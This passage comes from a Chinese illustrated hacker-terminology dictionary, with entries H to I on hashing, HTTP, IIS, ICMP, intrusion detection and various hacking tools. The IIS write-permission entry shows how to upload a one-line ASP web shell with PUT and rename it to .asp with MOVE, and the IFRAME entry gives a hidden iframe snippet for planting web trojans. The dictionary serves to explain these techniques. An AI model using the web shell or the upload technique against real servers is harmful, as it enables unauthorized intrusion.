HASH 一般翻译作“散列”，也有直接音译为“哈希”的。HASH（有时也称杂凑函数或杂凑算法）就是把任意长的输入消息串变化成固定长的输出串的一种函数。这个输出串称为该消息的 HASH 值。我们身边到处都可以见到 HASH 值的身影，如 SAM 文件里的 HASH，论坛里经过 MD5 加密过的 HASH 等。

一个安全的 HASH 函数应该至少满足以下几个条件：

- 输入长度是任意的；
- 输出长度是固定的，根据目前的计算技术应至少取 128 bits 长；
- 对每一个给定的输入，计算输出（即杂凑值）是很容易的；
- 给定杂凑函数的描述，找到两个不同的输入消息杂凑到同一个值在计算上不可行；或给定杂凑函数的描述和一个随机选择的消息，找到另一个与该消息不同的消息使得它们杂凑到同一个值在计算上不可行。

常见哈希函数有以下几种：

- **MD4（RFC 1320）**：MD 是 Message Digest 的缩写，它适用于在 32 位字长的处理器上用高速软件实现，它是基于 32 位操作数的位操作来实现的。
- **MD5（Message Digest Algorithm 5）**：是 RSA 数据安全公司开发的一种单向散列算法，被广泛使用，可以用来把不同长度的数据块进行暗码运算成一个 128 位的数值（详情请见 MD5）。
- **SHA（Secure Hash Algorithm）**：是一种较新的散列算法，可以对任意长度的数据运算生成一个 160 位的数值。
- **MAC（Message Authentication Code）**：消息认证代码，是一种使用密钥的单向函数，可以用它们在系统上或用户之间认证文件或消息。
- **CRC（Cyclic Redundancy Check）**：循环冗余校验码，CRC 校验由于实现简单、检错能力强，被广泛使用在各种数据校验应用中。

HASH 函数在信息安全方面的应用主要体现在以下 3 个方面：

- 文件校验

我们比较熟悉的校验算法有奇偶校验和 CRC 校验，这两种校验并没有抗数据篡改的能力，它们一定程度上能检测并纠正数据传输中的信道误码，但却不能防止对数据的恶意破坏。

MD5 Hash 算法的“数字指纹”特性使它成为目前应用最广泛的一种文件完整性校验和（Checksum）算法，不少 Unix 系统有提供计算 MD5 checksum 的命令。

- 数字签名

Hash 算法也是现代密码体系中的一个重要组成部分。由于非对称算法的运算速度较慢，所以在数字签名协议中，单向散列函数扮演了一个重要的角色。对 Hash 值（又称“数字摘要”）进行数字签名，在统计上可以认为与对文件本身进行数字签名是等效的，而且这样的协议还有其他的优点。

- 鉴权协议

鉴权协议又被称作 Challenge/Response 响应机制：这是在容易被嗅探的环境下，一种简单而安全的传输信息的方法。

## HUB｜硬件

HUB 即集线器，属于数据通信系统中的基础设备，它和双绞线等传输介质一样，是一种不需任何软件支持或只需很少管理软件管理的硬件设备，如图 H-3 所示。集线器工作在局域网（LAN）环境，像网卡一样，应用于 OSI 参考模型第一层，因此又被称为物理层设备。

集线器内部采用了电器互联，当维护 LAN 的环境是逻辑总线或环形结构时，完全可以用集线器建立一个物理上的星型或树型网络结构。在这方面，集线器所起的作用相当于多端口的中继器。其实，集线器实际上就是中继器的一种，其区别仅在于集线器能够提供更多的端口服务，所以集线器又叫多口中继器。

另外，用 HUB 组成的网络中，HUB 会将所有的数据顺道通过所有端口进行转发。这样，只要将计算机的网卡转为混杂模式就可以轻易监听所有网络的数据，同时还会造成许多其他的网络问题，所以 HUB 基本上已经被交换机所取代。


图 H-3

## HDSI｜黑客工具

一款国内较流行的傻瓜 SQL 注入工具，如图 H-4 所示，可以对 ASP、PHP 的页面进行注入，同时还有恢复 cmd_shell、开启 3389 终端、即时编辑表等功能。


图 H-4

## HEAD｜黑客技术基础

HEAD 是 HTML 语言中重要的标签，`<head></head>` 代表网页的头部，一般用来声明使用的脚本语言，以及网页传输时使用的方式等，特效所使用的脚本语言一般就插入在它们之间。

## HEX 码｜加密解密

即 16 进制码。

## HIDS｜安全技术

HIDS 全称是 Host-based Intrusion Detection System，即基于主机型入侵检测系统。作为计算机系统的监视器和分析器，它并不作用于外部接口，而是专注于系统内部，监视系统全部或部分的动态行为以及整个计算机系统的状态。

由于 HIDS 可以动态地检查网络数据包，它可以检测到哪一个程序访问了什么资源，以及确保文字处理器（Word-Processor）不会突然地、无缘无故地启动，并修改系统密码数据库。同样地，不管是往内存、文件系统、日志文件还是其他地方存储信息，HIDS 会一直监控系统状态，并且核对它们是否与预期相同。

HIDS 运行依赖于这样一个原理：一个成功的入侵者一般而言都会留下他们入侵的痕迹。这样，计算机管理员就可以察觉到一些系统的修改。HIDS 亦能检测并报告出检测结果。

一般而言，HIDS 使用一个它们所监视的目标系统以及文件系统（非必需）的数据库，也可以核对内存中未被非法修改的区域。对于每一个正被处理的目标文件来说，HIDS 会记录下它们的属性（如权限、大小、修改时间等），如果该文件有其文件内容的话，HIDS 将会创建一个校验码（如 SHA1、MD5 等）。这个校验码信息将储存在一个安全的数据库中，即校验码数据库，以便将来的核对。

## HOOK｜安全技术

HOOK 即钩子，它是 Windows 消息处理机制的一个平台，应用程序可以在上面设置子进程以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。

钩子机制允许应用程序截获处理 Window 消息或特定事件，钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，即钩子函数先得到控制权。这时钩子函数即可加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

利用钩子可以监视系统或进程中的各种事件消息，截获发往目标窗口的消息并进行处理。这样，我们就可以在系统中安装自定义的钩子，监视系统中特定事件的发生，完成特定的功能，比如截获键盘、鼠标的输入，屏幕取词，日志监视等。可见，利用钩子可以实现许多特殊而有用的功能。因此，对于高级编程人员来说，掌握钩子的编程方法是很有必要的。

以下是常见钩子的类型：

- 键盘钩子和低级键盘钩子可以监视各种键盘消息；
- 鼠标钩子和低级鼠标钩子可以监视各种鼠标消息；
- 外壳钩子可以监视各种 Shell 事件消息，比如启动和关闭应用程序；
- 日志钩子可以记录从系统消息队列中取出的各种事件消息；
- 窗口过程钩子监视所有从系统消息队列发往目标窗口的消息。

其实，杀毒软件与木马都可以利用钩子来监视系统，只不过目的不同罢了。例如当有程序运行时，杀毒软件的钩子就会捕捉到这个消息，然后在程序运行之前对比程序进行杀毒处理以保证此程序干净无毒；而木马也可以通过钩子来监视受害者在电脑上的一举一动，例如键盘的输入。

## HOOK API｜安全技术

即挂钩 API，这个是木马与病毒的常用技术，即将 Windows 本身的 API 进行挂钩，这样可以实现控制甚至是改变系统的许多运行机制。

## HOST｜黑客技术基础

HOST 代表主机。

## HOSTS 文件｜操作系统及其相关

HOSTS 文件的作用是包含 IP 地址和主机名或域名的映射关系，一般访问过的网站都会在这个 HOST 文件中记录，它可以建立这种关系。IP 地址要放在每段的最前面，空格后再写上映射的 HOSTNAME 主机名。对于这段的映射说明用“#”分割后用文字说明。

这个文件一般在 Windows 98 系统下的 Windows 文件夹；在 Windows 2000 中，它位于 `C:\WINNT\system32\drivers\etc` 文件夹；在 Windows XP 中位于系统目录 `system32\drivers\etc` 中。该文件其实是一个纯文本文件，用普通的文本编辑软件，如记事本等都能打开和编辑。

- HOSTS 文件的具体作用包括：
- 加快域名解析；
- 方便局域网用户；
- 屏蔽网站。

另外，许多病毒也可通过修改 HOST 文件来进行简单的 DNS 欺骗。

## Hotfix｜应用程序，安全技术

Hotfix 是针对某一个具体的系统漏洞或安全问题而发布的专门解决该漏洞或安全问题的小程序，通常称为修补程序。

## HotMail｜黑客技术基础

HotMail 是世界上最大的免费网络电子邮件，通过它可以和全球任何联网的计算机发送和接收电子邮件。现在已被微软收购，其为用户提供多达 2G 的存储空间，每封电子邮件最多可以有 10MB 的附件。在邮件中您可以设置独特的图释、签名、背景、字体和版式，可自定义垃圾邮件过滤器、病毒扫描和清除等功能。

2007 年 8 月 14 日，HotMail team 作出了自 LiveMail 发布以来的最大一次扩容，将 Windows Live HotMail 的收件箱容量扩展到 5GB！同时宣布付费的 HotMail Plus 或 MSN Premium 容量支持到 10GB！

## Hping2｜黑客工具

Hping 是一个基于命令行的 TCP/IP 工具，如图 H-5 所示，Hping2 是它的版本号，最新版为 Hping3。其在 Unix 上得到很好的应用，一直被用作安全工具，可以用来测试网络及主机的安全。它支持 TCP、UDP、ICMP、RAW-IP 协议，以及一个路由模型，并具有以下功能：

- 防火墙探测
- 高级端口扫描
- 网络测试（可以用不同的协议、数据包碎片等来实现此功能）
- 手工 MTU 发掘
- 高级路由（在任何协议下都可实现）
- OS 指纹判断
- 细微 UPTIME 猜测


图 H-5

## HTA｜黑客技术基础

HTA 为 HTML Application Host 的英文缩写，翻译过来就是 HTML 应用程序，它就是我们常见的 .hta 文件，早期很多网页的恶意代码都用到了它。只要简单地用 .hta 为扩展名保存 HTML 页面就算创建了一个 HTA 文件，在其中可以使用 VBScript 或 JavaScript 等脚本。其代码与 HTML 的不同之处在于多了 HTA:APPLICATION 标签，HTA 通过它来提供一系列面向应用程序的功能。

## HTML｜黑客技术基础

HTML（HyperText Mark-up Language）即超文本标记语言或超文本链接标示语言，它是网络的通用语言，一种简单、通用的置标记语言。它允许网页制作者建立文本与图片相结合的复杂页面，这些页面可以被网上任何其他人浏览到，无论使用的是什么类型的电脑或浏览器。基本上因特网上所有的网页都是基于这个语言写出来的。

我们在浏览器上看到的网页，本质上其实都是一行一行的 HTML 语句，它们经过浏览器的解析后就成为了美观的网页。

HTML 语言的结构一般包括头部（Head）、主体（Body）两大部分，其中头部描述浏览器所需的信息，而主体则包含所要说明的具体内容。

HTML 文件的代码结构通常都是以 `<html>` 开始，以 `</html>` 结尾，而中间有两大部分：第一部分是 `<head>...</head>` 区段，称为头部；第二部分是 `<body>...</body>` 区段，称为体部。下面是一个典型 HTML 文件所具有的结构。（`//` 后面的文字是注释）

```html
<html>    // HTML 文件开始
<head>    // 头部开始
<title>这是我的第一个HTML网页</title>    // </head>与</head>之间为文件头部
```

## 【黑客术语图文辞典】→HTTP

```html
</head>    // 头部结束
<body>     // 体部开始
我也编写出了 HTML 网页哦！   // <body>与</body>之间为文件体部
</body>    // 体部结束
</html>    // HTML 文件结束
```

在 HTML 文件代码中，放在 `<` 和 `>` 中间的为标记名，而 `<标记名>` 称为标记。一般的 HTML 标记具有起始和结束标记，结束标记前面要加“/”，并与前面的开始标记成对出现。

特别要注意的是：HTML 语言对字母大小写不敏感，即 `<html>` 和 `<HTML>` 或者 `<Html>` 是一样的，其他的标记也是一样的道理。

## HTML 字符（黑客技术基础）

即 HTML 语言中所用到的一些标记，如 `` 或 `<Script>`，这些字符由于可以产生 **XSS**，或者改变页面的原貌，在许多地方都会被过滤掉。

## htran（黑客工具）

一款经典的数据包转发程序，可以使内网的机器突破防火墙连接到外网，在渗透时有很大的作用，如图 H-6 所示。


## HTTP（黑客技术基础）

HTTP 即 HTTP 协议（Hypertext Transfer Protocol，超文本传输协议），它是用于从 WWW 服务器传输超文本到本地浏览器的传送协议。它也是互联网上应用最为广泛的一种网络传输协议，所有的 WWW 文件都必须遵守这个标准。

最初设计 HTTP 的目的是为了提供一种发布和接收 HTML 页面的办法。它可以使浏览器更加高效，使网络传输减少。它不仅保证计算机正确快速地传输超文本文档，还确定传输文档中的哪一部分，以及哪部分内容首先显示（如文本先于图形）等。这就是你为什么在浏览器中看到的网页地址都是以 `http://` 开头的原因。

HTTP 是一个用于在客户端和服务器间请求和应答的协议。一个 HTTP 的客户端，比如 WEB 浏览器，通过建立一个到远程主机特殊端口（一般为 80 端口）的连接，初始化一个请求。一个 HTTP 服务器通过监听特殊端口等待客户端发送一个请求序列，就像“GET / HTTP/1.1”（用来请求网页服务器的默认页面），有选择地接收像 E-mail 一样的 MIME 消息，此消息中包含了大量用来描述请求各个方面的信息头序列，响应一个选择的保留数据主体。

接收到一个请求序列后（如果要的话，还有消息），服务器会发回一个应答消息，比如“200 OK”，同时发回一个它自己的消息，此消息的主体可能是被请求的文件、错误消息或者其它的一些信息。

HTTP 不同于其它基于 TCP 的协议，比如 FTP。在 HTTP 中，一旦一个特殊的请求（或者请求的相关序列）完成，连接通常被中断。这个设计使得对于当前页面有规则连接到另一台服务器页面的万维网来说，HTTP 是完美的。另外，还有一个 HTTP 的安全版本，称为 HTTPS。HTTPS 支持任何的加密算法，只要此加密算法能被页面双方所理解。

## HTTPD（黑客技术基础）

```bash
httpd [-hILStvVX] [-c<httpd指令>] [-C<httpd指令>] [-d<服务器根目录>] [-D<设定文件参数>] [-f<设定文件>]
```

httpd 为 Apache HTTP 服务器程序，直接执行程序可启动服务器的服务。在 Windows NT/2000/XP/2003 中作为服务运行，在 Windows 95/98/ME 中作为控制台程序运行。

## HTTP 代理（黑客技术基础）

网络上一种常见的代理方式，利用的是 HTTP 协议，这种代理一般常在访问网站时使用，通过 HTTP 代理可以轻易地隐藏真实 IP 地址或突破封锁。

## HTTP 隧道技术（黑客技术基础）

HTTP 隧道技术即把所有要传送的数据全部封装到 HTTP 协议里进行传送。因此，在互联网上可以访问到局域网里通过 HTTP、SOCK4/5 代理上网的电脑，而且也不会有什么防火墙会拦截。

可以这么说，使用“HTTP 隧道技术”的远程控制软件几乎支持了所有的上网方式，如：拨号上网、ADSL、Cable Modem、NET 透明代理、HTTP 的 GET 型和 CONNECT 型代理、SOCKS4/5 代理、SOCKS5 代理等。通过使用反弹连接技术和 HTTP 隧道技术后，服务端程序的打开端口一般开为 80（即用于网页浏览的端口）。这样，稍微疏忽一点，用户就会以为是自己在浏览网页，而防火墙也会同样这么认为。再加上反弹连接型木马的服务端主动连接客户端，这样就可以轻易突破防火墙的限制。

## HTTP 头（黑客技术基础）

即 HTTP 协议包的包头。HTTP 头是 HTTP 通讯协议规定的请求和响应消息都支持的头域内容。例如：Cache-Control 头、Date 头、Pragma 头、Host 头、Referer 头、Range 头、User-Agent 头、Location 响应头、Server 响应头、Content-Type 实体头等。

浏览器发出请求，WEB 服务器送出响应，请求和响应都可以包含由实体头域和实体组成的实体信息。实体是一个经过编码的字节流，它的编码方式由 Content-Encoding 或 Content-Type 定义。服务器用 META 标签的 `http-equiv="Content-Type"` 的内容来“设置”实体头，浏览器用它“获取” Content-Type 实体头。通过这个包头可以判断 HTTP 协议请求从哪里来、浏览器的版本以及来源页面，也可判断 HTTP 协议应答的服务器版本。

## HTTP 响应头拆分漏洞（安全技术）

“HTTP 响应头拆分漏洞”是一种 WEB 攻击方案，它重新产生了很多安全漏洞，包括：WEB 缓存感染、用户信息涂改、窃取敏感用户页面、跨站脚本漏洞。

这项攻击方案，包括其衍生的一系列技术产生，是由于 WEB 应用程序没有对用户的提交进行严格过滤，导致非法用户可以提交一些恶意字符。更具体地说，是对用户输入的 CR 和 LF 字符没有进行严格的过滤。

## Hydra（黑客工具）

支持 SSL 的多种协议密码破解工具的 Cygwin 版，如图 H-7 所示。


## Hying's PE-Armor（应用程序，加密解密）

PE-Armor 是一款强大的 Windows 可执行文件加密工具，如图 H-8 所示，设计用来保护您的软件产品不被逆向工程破解，其功能非常强大，主要加密特性包括：压缩并加密应用程序、反内存转储/内存补丁、运行时文件完整性检查、反调试器、输入表混淆/加密、OEP 入口点混淆、特殊代码加密、抽取代码等等。


## IAT（加密解密）

全称为 Import Address Table，中文意思为输入地址表。简单说来，IAT 就是一个函数指针的表，调用该引入函数的时候，就到 IAT 中去找。

## IBM（特定名称）

IBM 是国际商业机器公司，或万国商业机器公司（International Business Machines Corporation）的简称，它是世界上最著名的 IT 公司之一。公司总部位于美国纽约州阿尔蒙克，1914 年创建，是世界上最大的信息工业跨国公司，同时也是全球最大的硬件公司、信息技术服务、信息技术租赁和融资公司。目前拥有全球雇员 30 余万人，业务遍及 164 个国家和地区。

## IBM DB2（数据库）

DB2 是 IBM 五大软件家族之一，其功能包括数据库管理系统、内容管理、商业智能、数据仓库、数据挖掘等。

## IEEE（特定名称）

IEEE 是 Institute of Electrical and Electronics Engineers 的英文缩写，翻译过来就是美国电子和电气工程师协会。它是一个国际性的电子技术与信息科学工程师的协会，是世界上最大的专业技术组织之一，在网络技术中的许多协议都要用到 IEEE 协会所制定的标准。

1963 年 1 月 1 日，由美国无线电工程师协会（IRE，创立于 1912 年）和美国电气工程师协会（AIEE，创建于 1884 年）合并而成，它管理着推荐规则和执行计划的分散组织（例如 IEEE-USA 明确服务于美国的成员、专业人士和公众），总部在美国纽约市。

IEEE 在 150 多个国家中拥有 300 多个地方分会，通过多元化的会员，该组织在太空、计算机、电信、生物医学、电力及消费性电子产品等领域中都是主要的权威。专业上它有 35 个专业学会和两个联合会。

## IceSword（应用程序，安全技术）

IceSword 冰刃是专门为查杀木马和后门而设计的软件，如图 I-1 所示，其内部功能强大，它使用了大量内核技术，比如 IceSword 就可以结束除 Idle 进程、System 进程、csrss 进程这三个进程外的所有进程。某些系统关键进程（如 Winlogon.exe）不可随意结束，否则可能导致系统崩溃。同时，冰刃还可以查看系统隐藏进程与服务，让查杀木马与病毒更容易。


## ICMP（黑客技术基础）

ICMP 是 “Internet Control Message Protocol”（Internet 控制消息协议）的缩写。它是 TCP/IP 协议族的一个子协议，用于 IP 主机、路由器之间传递控制消息。具体来说是指确定网络通不通、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要作用。

当某个网关发现传输错误时，立即向信源主机发送 ICMP 报文，报告出错信息，让信源主机采取相应处理措施。它是一种差错和控制报文协议，不仅用于传输差错报文，还传输控制报文。

ICMP 报文包含在 IP 数据报中，IP 头部就在 ICMP 报文前面，所以一个 ICMP 报文包括 IP 头部、ICMP 头部和 ICMP 报文。ICMP 头部中有一个重要参数：类型（Type）域，用于说明 ICMP 报文的作用及格式；此外还有代码（Code）域，用于详细说明某种 ICMP 报文类型，所有数据都在 ICMP 头部后面。

RFC 定义了 13 种 ICMP 报文格式，其中代码为 15、16 的信息报文已经作废。具体如下：

| 类型代码 | 类型描述 |
|---|---|
| 0 | 响应应答（ECHO-REPLY） |
| 3 | 不可到达 |
| 4 | 源抑制 |
| 5 | 重定向 |
| 8 | 响应请求（ECHO-REQUEST） |
| 11 | 超时 |
| 12 | 参数失灵 |
| 13 | 时间戳请求 |
| 14 | 时间戳应答 |
| 15 | 信息请求（*已作废*） |
| 16 | 信息应答（*已作废*） |
| 17 | 地址掩码请求 |
| 18 | 地址掩码应答 |

ICMP 作为平时最常使用的协议与我们关系密切，比如我们常用 ping 命令来检查网络通不通，这个“Ping”的过程实际上就是 ICMP 协议工作的过程。

使用 Ping 命令时，程序会首先发送一个 ICMP echo 类型的包到目标主机，如果目标主机返回一个 ICMP echo reply 包的话，那么就代表主机存活，然后根据时间差以及 IP 报头的 TTL 把信息打印出来。另外，其他的网络命令，如跟踪路由的 Tracert 命令也是基于 ICMP 协议的。

当然，ICMP 也可以被用来进行恶意攻击，比如，一种早期的攻击方法是利用操作系统规定的 ICMP 数据包最大尺寸不超过 64KB 这一规定，向主机发起“Ping of Death”（死亡之 Ping）攻击。

“Ping of Death”攻击的原理是：如果 ICMP 数据包的尺寸超过 64KB 上限时，主机就会出现内存分配错误，导致 TCP/IP 堆栈崩溃，致使主机死机。此外，向目标主机长时间、连续、大量地发送 ICMP 数据包，也会最终使系统瘫痪。大量的 ICMP 数据包会形成“ICMP 风暴”，使得目标主机耗费大量的 CPU 资源。

不过随着网络的发展，路由器与防火墙都对 ICMP 做了必要的过滤，ICMP 攻击已经失去了它原有的效果。

## ICS（黑客技术基础）

ICS（Internet Connection Sharing，Internet 连接共享）是 Windows 系统针对家庭网络或小型的 Intranet 网络提供的一种 Internet 连接共享服务，它实际上相当于一种网络地址转换器。

所谓网络地址转换器就是当数据包向前传递的过程中，可以转换数据包中的 IP 地址和 TCP/UDP 端口等地址信息。有了网络地址转换器，家庭网络或小型办公网络中的电脑就可以使用私有地址，并且通过网络地址转换器将私有地址转换成 ISP 分配的单一的公用 IP 地址，从而实现对 Internet 的连接。ICS 方式也称之为 Internet 转换连接。

## ICO 文件（操作系统及其相关）

Windows 图标文件的简称，ICON 的前三个字母。

## IDA（黑客技术基础）

IDA（IDA Pro Advanced）是目前最棒的一个静态反编译软件，是破解者不可缺少的利器！如图 I-2 所示。


图 I-2

## IDE（程序语言与开发）

IDE 是 Integrated Development Environment 的缩写，即集成开发环境。软件是用于程序开发环境的应用程序，一般包括代码编辑器、编译器、调试器和图形用户界面工具。就是集成了代码编写功能、分析功能、编译功能、`debug` 功能等一体化的开发软件套。所有具备这一特性的软件或者软件套（组）都可以叫做 IDE，如微软的 Visual Studio 系列，Eclipse，Borland 的 C++ Builder，Delphi 系列等。

IDE 让程序员的开发效率大大提高，增加了程序员的开发能力，所以一个好的 IDE 对于一个程序员来说是十分重要的。

## IDS（安全技术）

IDS 全称为 Intrusion Detection Systems，即入侵检测系统，可依照一定的安全策略，对网络、系统的运行状况进行监视，尽可能发现各种攻击企图、攻击行为或者攻击结果，以保证网络系统资源的机密性、完整性和可用性。

一个形象的比喻：假如防火墙是一幢大楼的门锁，那么 IDS 就是这幢大楼里的监视系统。一旦小偷爬窗进入大楼，或内部人员有越界行为，只有实时监视系统才能发现情况并发出警告。

IDS 不同于防火墙，IDS 入侵检测系统是一个监听设备，没有跨接在任何链路上，无须网络流量流经它便可以工作。因此，对 IDS 的部署，唯一的要求是：IDS 应当挂接在所有所关注流量都必须流经的链路上。在这里，“所关注流量”指的是来自高危网络区域的访问流量和需要进行统计、监视的网络报文。

## IPS（安全技术）

IPS 全名为 Intrusion Prevention System，即入侵防御系统，它是位于防火墙和网络设备之间。这样，如果检测到攻击，它会在这种攻击扩散到网络的其它地方之前阻止这个恶意的通信。IDS 只是存在于你的网络之外起到报警的作用，而不是在你的网络前面起到防御的作用。

目前有很多种 IPS 系统，它们使用的技术都不相同，不过一般都是依靠对数据包的检测。IPS 将检查入网的数据包，确定这种数据包的真正用途，然后决定是否允许这种数据包进入你的网络。

## IE PassView（黑客工具）

IE PassView 是一个小巧的密码破解工具，如图 I-3 所示，可以恢复由 Internet Explorer 保存的密码，支持 IE 4-7 的所有版本。


## IExpress（应用程序）

IExpress 是微软为压缩 CAB 文件及制作安装程序所开发的小工具，压缩率与 WinRAR 相当，如图 I-4 所示。其实应该算是 MAKECAB 的一个 Shell。其一直藏身于微软的产品中，官方却从来未对它说明过，但不能否认是一款不错的免费软件。早期的一些网页木马也都是用这个软件制作而成。


图 I-4

## IE 网页木马（黑客技术基础）

即利用 IE 漏洞的网页木马，详情请看网页木马词条。

## IFRAME（黑客技术基础）

IFRAME 是 HTML 语言里的重要元素，利用它可以将网页分成几个部分，也可以将不同的网页嵌套进这几个部分。许多挂马者挂马的常用方法之一就是嵌套进一个框架，并将高度与宽度都设置为 0（这样就不可见），再在其中嵌入网页木马的地址，如：`<iframe width=0 height=0 frameborder=0 scrolling=auto src=URL></iframe>`，其中的 URL 就是网页木马的地址，用户在浏览这个网页时会在不知不觉中中了网页木马。

## IIS（黑客技术基础，操作系统及其相关）

IIS（Internet Information Server，互联网信息服务）是微软为其操作系统开发的服务组件，其中包括 WEB 服务器、FTP 服务器、NNTP 服务器和 SMTP 服务器，分别用于网页浏览、文件传输、新闻服务和邮件发送等方面，它使得在网络上发布信息成了一件很容易的事。Windows NT/2000/2003 都自带了这个组件，只要放入 Windows 的安装盘就可以安装。当我们在 CMD 下输入 `telnet xxx.xxx.xxx.xxx 80`，然后再输入 `get` 后回车，就可以看到一个标准的 HTTP 头。

```text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Sat, 16 Feb 2008 09:57:10 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>

C:\>
```

其中的“Server: Microsoft-IIS/5.0”可以说明该网站服务器使用的 WEB 服务软件为 IIS 5.0。

在 Unix 或 Linux 平台上，Apache 就是网站服务器；而对于 Windows NT/…

## 黑客术语图文辞典 → IIS 写权限

对 2000/2003/XP 来说，IIS 就是标准的网站服务器，它就像驱动程序一样是操作系统的一部分，具有在系统启动时被同时启动的服务功能。

下面是添加 IIS 的简单过程：首先进入“控制面板”，依次选择“添加/删除程序”→“添加/删除 Windows 组件”，将“Internet 信息服务（IIS）”前的小钩去掉（如果有的话），重新勾选后按提示操作即可完成 IIS 组件的添加。

用这种方法添加的 IIS 组件中将包括 WEB、FTP、NNTP 和 SMTP 等全部四项服务。当 IIS 添加成功之后，再依次选择“开始”→“设置”→“控制面板”→“管理工具”→“Internet 服务管理器（Internet 信息服务）”，打开 IIS 管理器。对于有“已停止”字样的服务，可以在其上单击右键，选“启动”开启服务。

### IIS Banner（渗透技术）

IIS Banner 即 IIS 返回的 Banner，详情请见 Banner 词条。

### IIS 来宾用户（操作系统及其相关）

来宾账户是装了 IIS 后创建的用户，一般包括两个，如图 I-5 所示。IUSR_机器名，匿名访问 Internet 信息服务的内置账户。IWAM_机器名，启动 IIS 进程账户，用于启动进程外应用程序的 Internet 信息服务的内置账户。


正是由于这个进程启动 IIS，所以 IIS 继承了这个用户的权限（也属于 USER）。这就是为什么上传 WebShell 后还需要提权的根本原因了。

### IIS 写权限（渗透技术）

IIS 允许让匿名用户在指定的目录上写文件的设置，如图 I-6 所示。在“写入”选项打上勾后，匿名用户就可以在这个目录下写入 TXT 文件，也就具有了 IIS 写权限。这个选项非常危险，如果一个目录同时允许“写入”和“脚本和可执行程序”的话，那么就可以利用这个权限来上传 ASP 木马。下面我们来看看一个典型的利用过程。


Telnet 到服务器的 WEB 端口（80）并发送一个如下请求：

```http
PUT /dir/c0dy.txt HTTP/1.1
Host: iis-server
Content-Length: 10
```

这时服务器会返回一个 100（继续）的信息：

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Thu, 28 Feb 2002 15:56:00 GMT
```

接着，我们输入 10 个字母：`<%execute(request("a"))%>`  
送出这个请求后，看服务器的返回信息，如果是一个 201 Created 响应：

```http
HTTP/1.1 201 Created
Server: Microsoft-IIS/5.0
Date: Thu, 28 Feb 2002 15:56:08 GMT
Location: iis-server/dir/my_file.txt">http://iis-server/dir/my_file.txt
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND,
PROPPATCH, SEARCH, LOCK, UNLOCK
```

这样我们就成功地将一句话木马在 dir 目录下写入了文本文件，同时说明这个目录的写权限是开着的。反之，如果返回的是一个 403 错误，那么写权限就没有开起来；如果需要你认证，并且返回一个 401（权限禁止）的响应的话，说明是开了写权限，但是匿名用户不允许。

接着再用 MOVE 将 cody.txt 变成 cody.asp，过程如下：  
用 `nc` 到服务器的 WEB 端口（80）并发送一个如下请求：

```txt
D:\>nc 127.0.0.1 80
MOVE /dir/cody.txt HTTP/1.1
Host: 127.0.0.1
Destination: http://127.0.0.1/dir/cody.asp
```

```http
HTTP/1.1 201 Created
Server: Microsoft-IIS/5.0
Date: Sun, 05 Oct 2003,09:30:59 GMT
Location: http://127.0.0.1/scripts/x.asp
Content-Type: text/xml
Content-Length: 0
```

这样就成功利用 MOVE 把 /dir/cody.txt 改名为 /dir/cody.asp 了。


## IKE 安全技术

IKE（Internet Key Exchange）是 VPN 网络中服务器和远程客户端建立连接的机制。在扫描到 VPN 服务器的 IP 地址后，将改造过的 IKE 数据包分发给 VPN 网中的每一主机。只要是运行 IKE 的主机就会发回反馈来证明它存在。

动态密钥指在通信过程中，数据流被划分成一个个“数据块”，每一个“数据块”都使用不同的密钥加密，这可以保证万一攻击者中途截取了部分通信数据流和相应的密钥后，也不会危及到所有其余的通信信息的安全。

## 黑客术语图文辞典 → INT3命令

## Imperator 应用程序

Imperator FLA 是一套 Flash 反编译工具，如图 I-7 所示，可以将 SWF 文件格式转成 FLA 文件格式。软件使用很简单，你只要先选择所要开启的 SWF 文件，再另存成 FLA 文件即可。接着再使用 Flash MX 软件开启另存的 FLA 文件，然后就可以对文件进行修改了。


## ImportREC 加密解密

全称是 Import REConstructor，手工重建 Import 表的工具，支持 UPX、Safedisc 1、PECompact、PKLite32、Shrinker、ASPack、ASProtect、tELock 等壳的输入表自动修复，是脱壳必备的工具，如图 I-8 所示。


## INCLUDE 程序语言与开发

INCLUDE 是 C、C++、JAVA 等语言中的常用语句，一般用来在原文件中插入另一个文件，共同组成一个大的程序文件。

## INIDS 安全技术

INIDS 是一款简单易用、功能强大的监测工具，基于特征码和异常有机结合的网络入侵监测系统。能检测扫描，提供 syslog 支持，根据不同的危险级别，播放不同的警告信号。

## INT3命令 调试技术

断点中断（INT3）是一种软中断，软中断又称为自陷指令。当 CPU 执行到自陷指令时，就进入断点中断服务程序，由断点中断服务程序完成对断点处各寄存器内容的显示。

DEBUG 就可以利用断点中断：

DEBUG 首先保存设置的断点处指令，改用断点中断 INT3 指令代替。当程序执行到断点处的 INT3 指令时，便产生断点中断，并把原先保存的断点处指令重新替代 INT3，以完成一个完整的设置断点的 G 命令。

G 命令的执行过程：DEBUG 中的 G 命令是用于运行程序的，但当 G 命令后面跟有断点参数时，就可使程序运行至断点处中断，并显示各寄存器的内容，这样就可以大大提高跟踪的速度。

通过对单步中断和断点中断的合理组合，可以产生强大的动态调试跟踪功能，这就对磁盘加密技术造成了巨大的威胁。所以破坏单步中断和断点中断，在反跟踪技术中就显得十分必要，成为反跟踪技术中的“必修课”。

## Internet 黑客技术基础

因特网（Internet）是一组全球信息资源的总汇，也是世界上最大的计算机网络，每个子网中连接着若干台计算机（主机）。Internet 以相互交流信息资源为目的，基于一些共同的协议，并通过无数路由器和公共互联网而成，它是一个信息资源和资源共享的集合。

计算机网络只是传播信息的载体，而 Internet 的优越性和实用性则在于本身。它的出现可以说是人类社会的一个转折点。它让信息得以更广泛地传播，消除了长期以来信息资源不对等的情况，让世界变得更加平坦。

